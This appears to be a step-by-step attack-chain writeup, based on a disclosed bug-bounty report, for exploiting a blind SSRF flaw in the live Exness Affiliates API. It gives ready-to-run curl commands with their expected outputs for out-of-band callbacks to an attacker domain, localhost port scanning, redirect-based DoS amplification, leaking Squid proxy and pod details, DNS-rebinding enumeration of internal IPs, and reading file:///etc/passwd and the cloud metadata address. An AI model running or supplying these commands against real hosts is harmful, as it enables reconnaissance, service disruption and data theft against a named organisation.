

# Blind SSRF Leading to Internal Network Enumeration and Information Disclosure in Exness Affiliates

Multi-stage attack chain demonstrating exploitation of a blind Server-Side Request Forgery (SSRF) vulnerability in the Exness Affiliates API endpoint https://my.exnessaffiliates.com/api/partner_integrations/template/probe. The attack confirms the SSRF, scans internal ports, discloses proxy details, enumerates protected network IPs using DNS rebinding, and tests for resource exhaustion via redirects. Discovered via HackerOne report #1832494, this chain enables reconnaissance of internal infrastructure including Squid proxy versions, pod IPs in 10.x.x.x ranges, and ASN-protected addresses, with potential for DoS amplification and WAF bypass.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/oastify-com]]
- [[tools/nip-io]]
- [[tools/localtest-me]]
- [[tools/mandygreencps-com]]

### Target Environment

- Web platform with Python backend using requests/2.28.1
- Services: Squid/5.6 proxy, Imperva WAF
- Ports: 80, 443, 1068
- Kubernetes environment with internal pod IPs (10.x.x.x ranges)

### Initial Access Requirements

- Public access to https://my.exnessaffiliates.com
- No authentication required for the vulnerable endpoints
- Attacker-controlled domains for out-of-band detection and rebinding

## Detailed Attack Procedures

### Step 1: Confirm Blind SSRF
procedure: [[procedures/Confirm-Blind-SSRF-with-External-Domain]]

**Objective**: Verify the SSRF vulnerability by triggering a backend request to an attacker-controlled domain and observing out-of-band interactions.

**Instructions**: Use [[commands/post-probe-external-url]] to send a POST request to the probe endpoint with an external URL in the payload. Monitor the attacker domain for DNS resolution and HTTP requests.

```bash
curl -X POST https://my.exnessaffiliates.com/api/partner_integrations/template/probe \
  -H "Content-Type: application/json" \
  -d '{"data":{"url":"https://attacker-domain.tld"}}'
```

**Expected Output**: No direct response indicating success, but DNS query and HTTP GET to the attacker domain with headers including Host: sa66ovrblrbiviochnojtli2bthk5ft4.oastify.com and User-Agent: python-requests/2.28.1.

**Success Indicators**:
- DNS resolution observed on oastify.com
- Incoming HTTP request from backend IP

### Step 2: Detect Open Ports on Localhost
procedure: [[procedures/Detect-Open-Ports-on-Localhost-via-SSRF]]

**Objective**: Exploit SSRF to scan localhost ports by differentiating error messages for open vs. closed ports.

**Instructions**: Execute [[commands/post-probe-localhost-port]] targeting port 80 on 127.0.0.1. Compare responses to identify port status.

```bash
curl -X POST https://my.exnessaffiliates.com/api/partner_integrations/template/probe \
  -H "Content-Type: application/json" \
  -d '{"data":{"url":"https://127.0.0.1:80"}}'
```

**Expected Output**: For closed ports: Validation error JSON; for open ports: Python Requests error like HTTPSConnectionPool(host='127.0.0.1', port=80): Max retries exceeded.

**Success Indicators**:
- Verbose connection error indicating open port
- No validation error triggered

### Step 3: Test Redirect Handling for DoS Amplification
procedure: [[procedures/Test-Redirect-Handling-for-DoS-Amplification]]

**Objective**: Assess redirect following to enable resource exhaustion and protocol/port changes.

**Instructions**: Send a GET request using [[commands/get-check-redirect-chain]] to trigger up to 30 redirects from a custom chain.

```bash
curl -X GET "https://my.exnessaffiliates.com/api/partner_integrations/template/check/?url=https://mandygreencps.com/redir1.html"
```

**Expected Output**: Backend follows 30 redirects rapidly, allowing schema (HTTP to HTTPS) and port changes; potential for amplified load.

**Success Indicators**:
- Redirect chain processed without blocking
- Protocol/port switch confirmed in interactions

### Step 4: Disclose Squid Proxy Details
procedure: [[procedures/Disclose-Squid-Proxy-Details-via-Local-Rebinding]]

**Objective**: Use localhost rebinding to leak Squid proxy version and pod information.

**Instructions**: Utilize [[commands/get-check-localtest-me]] to rebind localtest.me to localhost and capture error details.

```bash
curl -X GET "https://my.exnessaffiliates.com/api/partner_integrations/template/check/?url=http://localtest.me:80"
```

**Expected Output**: Error message: Generated Fri, 13 Jan 2023 13:08:17 GMT by partner-integrations-squid-6b99c4777d-vwkcn (squid/5.6).

**Success Indicators**:
- Squid version and pod name disclosed
- Proxy-generated timestamp in response

### Step 5: Enumerate Internal IPs with DNS Rebinding
procedure: [[procedures/Enumerate-Internal-IPs-with-DNS-Rebinding]]

**Objective**: Bypass restrictions to enumerate internal pod IPs and protected ASN ranges using DNS rebinding.

**Instructions**: Apply [[commands/get-check-nip-io-http]] and [[commands/get-check-nip-io-https]] with nip.io subdomains resolving to internal IPs.

```bash
curl -X GET "https://my.exnessaffiliates.com/api/partner_integrations/template/check/?url=http://10.0.0.1.nip.io"
```

For HTTPS variant:

```bash
curl -X GET "https://my.exnessaffiliates.com/api/partner_integrations/template/check/?url=https://10.0.0.1.nip.io"
```

**Expected Output**: Errors revealing ClientIP: 10.x.x.x, certificate mismatches like hostname '*.exnessaffiliates.com' doesn't match '10.0.0.1.nip.io'.

**Success Indicators**:
- Internal IP ranges (10.x.x.x) enumerated
- Protected ASN IPs accessible without rebinding

### Step 6: Test Dangerous Protocols and Further Enumerations
procedure: [[procedures/Test-Dangerous-Protocols-and-Further-Enumerations]]

**Objective**: Probe for additional bypasses with non-HTTP protocols and port enumerations.

**Instructions**: Attempt [[commands/post-probe-file-protocol]] and similar for gopher://, ftp://; test redirects to port 1068 and access to 169.254.169.254.

```bash
curl -X POST https://my.exnessaffiliates.com/api/partner_integrations/template/probe \
  -H "Content-Type: application/json" \
  -d '{"data":{"url":"file:///etc/passwd"}}'
```

**Expected Output**: Blocked by WAF/Network Policy for most, but some ports/protocols may leak errors.

**Success Indicators**:
- WAF blocks confirmed
- Limited enumerations via redirects

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SSRF and out-of-band detection.
2. Scanned localhost ports and disclosed Squid/5.6 details.
3. Enumerated internal 10.x.x.x pod IPs and ASN ranges via DNS rebinding.
4. Demonstrated DoS potential through 30-redirect amplification and WAF bypass.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Vulnerability Scanning]] Scanning IP Blocks
- [[Data from Information Repositories]] Data from Information Repositories
- [[Network Denial of Service]] Network Denial of Service

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access
- [[Collection]] Collection
- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
